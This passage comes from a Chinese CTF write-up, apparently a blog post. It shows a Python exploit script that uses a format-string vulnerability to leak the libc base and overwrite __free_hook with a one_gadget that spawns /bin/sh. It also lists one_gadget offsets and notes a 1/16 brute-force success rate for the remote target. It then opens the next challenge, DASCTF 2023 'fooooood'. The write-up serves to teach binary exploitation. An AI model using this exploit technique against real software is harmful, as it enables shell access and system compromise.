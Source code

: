 ```bash
leak('libcbase',libcbase)
og = libcbase + 0x4527a
free_hook = libc.sym["__free_hook"] + libcbase
leak('og',og)
leak('free_hook',free_hook)
free = free_hook//0x100000000
leak('free',free)
free1 = free_hook//0x10000000000
'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''

num = 72 #0x48
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(0xaa)+'c%10$hhn')
sla('What do you want to say?\n','%'+str((og//0x10000)&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(0xac)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free&0xff)+'c%29$hhn')
sla('What do you want to say?\n','%'+str(0xad)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free1)+'c%29$hhn')
itr()
```

打远程时，29 位偏移地址，最后一位一定是 8，所以只需要爆破倒数第 2 位就行，所以有 1/16 的概率能够打出来

# 2023 年 DASCTF 2023 六月挑战赛｜二进制专项 fooooood (64 位)

## ida

[![](assets/1701612457-c6335bb3137617d233cfe0a334f78026.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215811-fd98316e-11cd-1.png)
